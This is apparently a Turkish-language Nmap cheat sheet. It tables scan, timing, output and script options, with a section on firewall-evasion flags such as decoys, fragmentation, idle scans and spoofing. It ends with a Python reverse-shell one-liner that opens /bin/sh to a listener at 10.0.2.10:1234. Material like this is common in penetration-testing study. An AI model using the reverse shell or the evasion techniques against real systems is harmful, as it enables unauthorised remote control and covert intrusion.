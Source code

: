 
# 🛰️ Nmap Komutları ve Açıklamaları

## 🎯 Hedef Tanımlama ve Ping Taramaları

| Komut | Açıklama |
|-------|----------|
| `-iL` | IP listesi kullanarak tarama |
| `--exclude` | Belirli IP veya IP aralıklarını taramadan çıkarma |
| `-Pn` | Ping atmadan tarama (host up varsayılır) |
| `-sP` | Sadece ping taraması (host discovery) |
| `-PA`, `-PU`, `-PY`, `-PE`, `-PR` | Farklı ping teknikleri: TCP ACK, UDP, SCTP INIT, ICMP Echo, ARP |
| `--traceroute` | Hedefe giden yolu görselleştirme |
| `-R` | Ters DNS çözümlemesi |

## 🔍 Tarama Teknikleri

| Komut | Açıklama |
|-------|----------|
| `-sS` | TCP SYN (yarı açık) tarama |
| `-sT` | TCP Connect taraması (root gerekmez) |
| `-sU` | UDP taraması |
| `-sN`, `-sF`, `-sA` | Güvenlik duvarını kandırmak için TCP bayrak varyasyonları |
| `-sO` | IP protokol taraması |
| `-sV` | Servis sürüm bilgisi bulma |
| `-sV --version-trace` | Servis taramasında detaylı bilgi elde etme |
| `-sR` | RPC hizmetleri taraması |
| `-O` | İşletim sistemi tanımlama |
| `--osscan-guess`, `--fuzzy` | Belirsiz OS tahminlerini etkinleştirme |

## 🚀 Performans Ayarları

| Komut | Açıklama |
|-------|----------|
| `-T0` ~ `-T5` | Zamanlama ayarları (T0 en yavaş, T5 en hızlı) |
| `--min-parallelism`, `--min-hostgroup` | Paralel iş parçacığı ve host grup sayısı |
| `--max-retries`, `--host-timeout` | Maksimum tekrar ve zaman aşımı süresi |
| `--min-rate` | Saniyede minimum paket gönderimi |
| `--randomize-hosts` | Tarama sırasını rastgeleleştirme |

## 🧱 Firewall Atlatma Teknikleri

| Komut | Açıklama |
|-------|----------|
| `-f` | Paketleri parçalara ayırarak gönderme |
| `--mtu 16` | MTU ayarıyla dikkat dağıtma |
| `-D RND:10` | 10 farklı decoy (yem) adresiyle tarama |
| `-sI` | Idle/zombi scan (gizli tarama) |
| `--source-port`, `-g` | Kaynak port spoofing |
| `--data-length 25` | Rastgele veri ekleyerek gönderim |
| `--spoof-mac` | MAC adres spoofing |
| `--badsum` | Hatalı sağlama ile firewall test etme |

## 📤 Çıktı Alma

| Komut | Açıklama |
|-------|----------|
| `-oN`, `-oX`, `-oG`, `-oA`, `-oS` | Normal, XML, Grepable, Tüm formatlar, 1337 stil |
| `--stats-every 5s` | Tarama ilerleme durumunu gösterir |
| `--packet-trace` | Paket detaylarını gösterir |

## 🧰 Ekstra Araçlar & Betikler

| Komut | Açıklama |
|-------|----------|
| `--script whois-domain.nse` | Domain bilgilerini gösterir |
| `--script whois-ip.nse` | IP whois bilgisi |
| `--script vuln` | Hedefteki zafiyetleri tarar |

---

## 🧪 Faydalı Nmap Komutu

```bash
sudo nmap -sS -sV -O -Pn --script vuln <hedef_ip>
```

---


## 🐚 Ters Bağlantı Örneği (Reverse Shell)

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.2.10",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"])'
```
